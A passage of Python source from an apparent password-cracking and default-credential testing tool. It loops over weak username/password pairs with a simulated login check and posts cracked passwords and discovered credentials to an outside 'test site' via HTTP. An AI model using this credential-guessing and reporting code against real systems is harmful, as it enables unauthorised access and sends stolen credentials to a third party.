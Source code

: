 ```python
            ('administrator', 'administrator'),
            ('root', 'root'),
            ('guest', 'guest'),
            ('demo', 'demo'),
            ('test', 'test'),
            ('user', 'user')
        ]
        
        successful_logins = []
        
        for username, password in weak_combinations:
            if self.test_login(target_system, username, password):
                print(f"[!] Weak credentials found: {username}:{password}")
                successful_logins.append((username, password))
                
                # Report successful login
                self.report_weak_login(username, password, target_system)
        
        return successful_logins
    
    def test_login(self, target_system, username, password):
        """Simulate login test against target system"""
        # This is a simulation - in real scenarios this would connect to actual systems
        print(f"    Testing {username}:{password} against {target_system}")
        time.sleep(0.1)  # Simulate network delay
        
        # Simulate some successful logins for demo
        if (username, password) in [('admin', 'admin'), ('test', 'test')]:
            return True
        return False
    
    def report_crack(self, password, hash_value, method):
        """Report successful password crack to test site"""
        try:
            crack_data = {
                'test_type': 'password_crack',
                'timestamp': time.time(),
                'cracked_password': password,
                'hash_value': hash_value[:20] + '...',  # Truncate for privacy
                'crack_method': method,
                'tool': 'advanced_password_cracker'
            }
            
            response = requests.post(self.test_site, json=crack_data, timeout=10)
            if response.status_code == 200:
                print(f"    [+] Crack reported to monitoring site")
            
        except Exception as e:
            print(f"    [-] Error reporting crack: {e}")
    
    def report_weak_login(self, username, password, target_system):
        """Report weak login credentials to test site"""
        try:
            login_data = {
                'test_type': 'weak_login_discovered',
                'timestamp': time.time(),
                'username': username,
                'password': password,
                'target_system': target_system,
                'vulnerability': 'weak_default_credentials'
            }
            
            response = requests.post(self.test_site, json=login_data, timeout=10)
```